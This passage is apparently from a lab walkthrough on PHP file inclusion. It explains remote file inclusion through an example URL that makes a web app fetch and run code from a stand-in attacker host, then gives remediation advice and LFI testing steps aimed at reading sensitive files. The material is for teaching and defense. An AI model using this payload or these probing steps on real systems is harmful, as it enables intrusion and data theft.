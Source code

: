 First, the attacker injects the malicious URL, which points to the attacker's server, such as ```http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt```. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a ```GET``` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the ```Hello THM``` message.

Visit the following lab URL: ```http://MACHINE_IP/playground.php``` to try out an RFI attack.
```
We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
> No answer needed
```

## Task 7 - Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

* Keep system and services, including web application frameworks, updated with the latest version.
* Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
* A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
* Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as ```allow_url_fopen``` on and ```allow_url_include```.
* Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
* Never trust user input, and make sure to implement proper input validation against file inclusion.
* Implement whitelisting for file names and locations as well as blacklisting.
```
Ready for the challenges?
> No answer needed
```

## Task 8 - Challenge

Great Job! Now apply the techniques you've learned to capture the flags! Familiarizing yourself with HTTP Web basics could help you complete these challenges.

Make sure the attached VM is up and running then visit: ```http://MACHINE_IP/challenges/index.php```

### Steps for testing for LFI

1. Find an entry point that could be via ```GET```, ```POST```, ```COOKIE```, or HTTP header values!
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files
